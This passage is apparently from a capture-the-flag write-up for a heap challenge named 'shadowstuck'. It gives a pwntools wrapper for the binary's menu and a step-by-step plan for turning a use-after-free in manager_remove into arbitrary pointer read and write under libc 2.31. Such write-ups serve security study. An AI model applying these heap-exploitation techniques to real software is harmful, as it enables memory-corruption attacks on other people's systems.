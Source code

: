```c
  }
}
```
During that decompilation, I also got to work on a simple python wrapper to make exploitation writing easier:
```python
from pwnscripts import *
context.binary = 'shadowstuck'
context.libc_database = 'libc-database'
context.libc = 'libc-2.31.so'
class KEMS(pwnlib.tubes.remote.remote):
    def _do(p, opt: str):
        if len(opt) != 1: raise ValueError
        p.sendlineafter('> ', opt)
    def add(p, name: bytes):
        p._do('A')
        p.sendlineafter('> ', name)
        return p.recvline()
    def fire(p, name: bytes, note: bytes):
        p._do('F')
        p.sendlineafter('> ', name)
        p.sendlineafter('> ', note)
        return p.recvline()
    def change(p, uid: int, name: bytes):
        p._do('C')
        p.sendlineafter('> ', str(uid))
        p.sendlineafter('> ', name)
        return p.recvline()
    def read(p, uid: int):
        p._do('R')
        p.sendlineafter('> ', str(uid))
        return p.recvline()
    def quit(p, bof: bytes):
        p._do('Q')
        p.recvuntil('BOF on me.\n')
        p.send(bof)
```
We'll be using this for the rest of the passage.
## Ideas
This is libc-2.31 --- Even the tcache has double-free protections here. Instead of targeting a double-free, we can focus on abusing the Use-After-Free capabilities brought by the error in `manager_remove`.

At some point, I realised that the allocation of the `malloc(NOTESIZE)` was important for two reasons:
* For heap allocations on x86-64, there is **no difference** between user-sizes `0x10` and `0x18`; they're both thrown to the bins of true size `0x20`
* Unlike other parts of the binary, `malloc()` is used instead of `calloc()`, pointing to an increased potential for bugs.

My idea at this point was as follows:
1. Allocate an employee. This is `calloc(1,0x18)` with garbage input.
2. Sack that guy (`free()`ing the previous pointer). Due to the bug in `manager_remove`, the sacked employee is **still located** at `employee_linked_list`. At this point, the 0th employee is an employee with a zeroed-out name && a null `next` pointer.
3. The program prompts the user for a note of `malloc(0x18)`. This will return **the same pointer** as the one currently stored at `employee_linked_list`. Write `0x10` bytes of garbage, and then write *a pointer you want to manipulate* (e.g. the given shadow stack pointer).
   * The `0x10` bytes will be zeroed during the `free()` immediately after, but the written pointer will not be.
4. Edit `0x10` bytes of that pointer with `kems_change()`, or maybe read from it with `kems_read()`. Either one is possible.
